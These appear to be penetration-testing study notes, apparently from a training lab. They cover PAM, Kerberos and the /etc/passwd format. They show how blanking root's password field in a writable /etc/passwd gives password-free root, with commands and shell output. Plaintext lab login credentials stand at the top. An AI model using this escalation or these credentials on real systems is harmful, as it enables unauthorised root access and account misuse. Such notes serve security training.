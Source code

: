 

Website:   https://dev.inlanefreight.com
Username: 'will@inlanefreight.htb'
Password: 'TUqr7QfLTLhruhVbCP'
login: kira   password: L0vey0u1!

# Passwd, Shadow & Opasswd

Linux Pluggable Authentication Modules is a suite of libraries that allow a Linux system administrator to configure methods to authenticate users. `PAM`
PAM also has many other service modules, such as LDAP, mount, or Kerberos.
### **How Kerberos Works in Linux:**

1. **User logs in → PAM contacts Kerberos (KDC)**
2. **KDC verifies user** → Issues a Ticket-Granting Ticket (TGT)
3. **User accesses a service** → PAM uses the TGT to request a service ticket
4. **Service verifies ticket** → Grants access without needing the password again

**A Linux-based Kerberos Realm** (Using `krb5-kdc` and `krb5-admin-server`)
`/etc/passwd` and `/etc/shadow`
## Passwd File

#### Passwd Format

|`cry0l1t3`|`:`|`x`|`:`|`1000`|`:`|`1000`|`:`|`cry0l1t3,,,`|`:`|`/home/cry0l1t3`|`:`|`/bin/bash`|
|---|---|---|---|---|---|---|---|---|---|---|---|---|
|Login name||Password info||UID||GUID||Full name/comments||Home directory||Shell|

`/etc/passwd` file is writeable by mistake. This would allow us to clear this field for the user `root` so that the password info field is empty. This will cause the system not to send a password prompt when a user tries to log in as `root`.

#### Editing /etc/passwd - Before
```shell-session
root:x:0:0:root:/root:/bin/bash
```
#### Editing /etc/passwd - After
```shell-session
root::0:0:root:/root:/bin/bash
```
#### Root without Password
```shell-session
[cry0l1t3@parrot]─[~]$ head -n 1 /etc/passwd

root::0:0:root:/root:/bin/bash


[cry0l1t3@parrot]─[~]$ su

[root@parrot]─[/home/cry0l1t3]#
```
## Shadow File
